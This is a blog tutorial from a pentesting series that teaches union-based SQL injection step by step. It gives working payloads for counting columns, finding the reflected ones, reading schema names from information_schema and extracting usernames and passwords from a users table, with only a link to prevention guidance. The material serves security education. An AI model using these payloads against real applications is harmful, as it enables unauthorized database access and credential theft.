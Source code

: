 ```yaml
---
title: "SQLi Series - Intro to SQL Union Injection II  - 04"
seoTitle: "SQL Union Injection II: Intro Series"
seoDescription: "Learn how to perform and prevent Union-based SQL injections, including detecting vulnerable columns and extracting data"
datePublished: Fri Apr 19 2024 05:06:23 GMT+0000 (Coordinated Universal Time)
cuid: clv67jxs9000409l3gsmzge24
slug: sqli-series-intro-to-sql-union-injection-ii-04
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713503145012/f5361a2c-f1e9-4c24-9da0-2dd09bbfef07.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713503164430/41eac61e-24e5-4957-aae5-8280aa89ba82.png
tags: pentesting, sqlinjection

---
```


### 1.Understanding Union-Based SQL Injection

a) Explanation:

* Union-based SQL injection allows attackers to retrieve data from different tables within the database by appending a UNION SELECT statement to the original query.
    
* The UNION operator combines the results of two or more SELECT statements into a single result set.
    
* For a successful Union-based injection, the following conditions must be met:
    
    * The number of columns in the injected SELECT statement must match the number of columns in the original query.
        
    * The data types of the columns in the injected SELECT statement must be compatible with the data types of the original columns.
        

b) Example:

Consider the following vulnerable SQL query:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

An attacker can inject a payload like:

```sql
' UNION SELECT 1, 2, 3 -- -
```

This will append a new SELECT statement, returning three columns with values 1, 2, and 3, effectively bypassing the original query.

1. Detecting the Number of Columns
    
2. a) Using ORDER BY:
    
    * The ORDER BY clause can be used to determine the number of columns in the original query.
        
    * Steps:
        
        1. Inject an ORDER BY clause with increasing column numbers until an error occurs.
            
        2. The last successful column number represents the total number of columns in the original query.
            
    
    Example:
    
    ```sql
    ' ORDER BY 1-- -
    ' ORDER BY 2-- -
    ' ORDER BY 3-- -
    ...
    ```
    
    Continue incrementing the column number until an error is encountered.
    
3. b) Using UNION SELECT:
    
    * Alternatively, you can use UNION SELECT with increasing number of columns until the injection is successful.
        
    * Steps:
        
        1. Inject a UNION SELECT statement with increasing number of columns.
            
        2. Observe the response until the injection is successful (i.e., no error is returned).
            
        3. The number of columns used in the successful injection represents the total number of columns in the original query.
            
    
    Example:
    
    ```sql
    ' UNION SELECT NULL-- -
    ' UNION SELECT NULL, NULL-- -
    ' UNION SELECT NULL, NULL, NULL-- -
    ...
    ```
    
    Continue adding NULL values until the injection is successful.
    

### 2.Locating the Vulnerable Column

a) Explanation:

* Not all columns returned by the original query may be displayed in the application's response.
    
* To retrieve meaningful data, you need to identify which column(s) are vulnerable and can be used for injection.
    

b) Steps:

1. Perform a Union-based injection with distinct values for each column.
    
2. Observe the application's response to determine which column(s) are reflected in the output.
    
3. Replace the distinct values with actual data retrieval queries in the vulnerable column(s).
    

c) Example: Inject the following payload:

```sql
' UNION SELECT 1, 2, 3, 4-- -
```

If the values 2, 3, and 4 are displayed in the application's response, those columns can be used for data retrieval.

### 3.Extracting Data

a) Database Version:

* Retrieve the database version using the @@version function.
    
* Example:
    
    ```sql
    ' UNION SELECT NULL, @@version, NULL, NULL-- -
    ```
    

b) Database Name:

* Retrieve the current database name using the database() function.
    
* Example:
    
    ```sql
    ' UNION SELECT NULL, database(), NULL, NULL-- -
    ```
    

c) Table Names:

* Retrieve table names from the information\_schema.tables table.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, table_name, NULL, NULL FROM information_schema.tables-- -
    ```
    

d) Column Names:

* Retrieve column names from the information\_schema.columns table.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, column_name, NULL, NULL FROM information_schema.columns WHERE table_name='users'-- -
    ```
    

e) Retrieving Data:

* Once you have identified the table and column names, you can retrieve data from the desired table.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, username, password, NULL FROM users-- -
    ```
    

### 4.Checkpoint:

* Practice detecting the number of columns using both ORDER BY and UNION SELECT techniques.
    
* Identify the vulnerable column(s) in a given SQL injection scenario.
    
* Retrieve the database version, database name, table names, and column names using Union-based injection.
    
* Extract sensitive data from a specific table using Union-based injection.
    

### 5.Further Reading:

* SQL Injection Cheat Sheet: [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    
* SQL Injection Wiki: [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com/)
    
* OWASP SQL Injection Prevention Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)